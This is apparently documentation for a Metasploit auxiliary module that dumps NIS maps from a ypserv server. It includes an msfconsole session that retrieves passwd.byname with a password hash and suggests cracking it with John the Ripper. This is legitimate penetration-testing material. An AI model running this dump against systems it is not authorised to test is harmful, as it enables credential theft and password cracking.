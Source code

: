 ## Intro

If you've worked with old Unix systems before, you've probably
encountered NIS (Network Information Service). The most familiar way of
describing it is a sort of hybrid between DNS and LDAP.

[Oracle][1] says the following about it:

> NIS is a distributed naming service. It is a mechanism for identifying and locating network objects and resources. It provides a uniform storage and retrieval method for network-wide information in a transport-protocol and media-independent fashion.

And on its use:

> By running NIS, the system administrator can distribute administrative databases, called maps, among a variety of servers (master and slaves). The administrator can update those databases from a centralized location in an automatic and reliable fashion to ensure that all clients share the same naming service information in a consistent manner throughout the network.

The module documented within will allow a tester to dump any map from an
NIS server (running as `ypserv`). Usually, maps like `passwd.byname`
contain things like hashes and user info, which can go a long way during
a pentest.

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

## Options

**PROTOCOL**

Set this to either TCP or UDP. TCP is the default due to easy discovery.

**DOMAIN**

Set this to your NIS domain.

**MAP**

Set this to the NIS map you want to dump. The default is `passwd`. You
can use the nicknames described in the module info instead of the full
map names.

**XDRTimeout**

Set this to the timeout in seconds for XDR decoding of the response.

## Usage

```
msf > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.0.2
rhost => 192.168.0.2
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.0.2:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```

After dumping a map, you can find it stored in `loot` later. You should
be able to run something like John the Ripper directly on the
`passwd.byname` map.

```
msf auxiliary(gather/nis_ypserv_map) > loot

Loot
====

host         service  type           name  content     info  path
----         -------  ----           ----  -------     ----  ----
192.168.0.2           passwd.byname        text/plain        /home/wvu/.msf4/loot/20180108143013_default_192.168.0.2_passwd.byname_509006.txt

msf auxiliary(gather/nis_ypserv_map) >
```

[1]: https://docs.oracle.com/cd/E23824_01/html/821-1455/anis1-25461.html
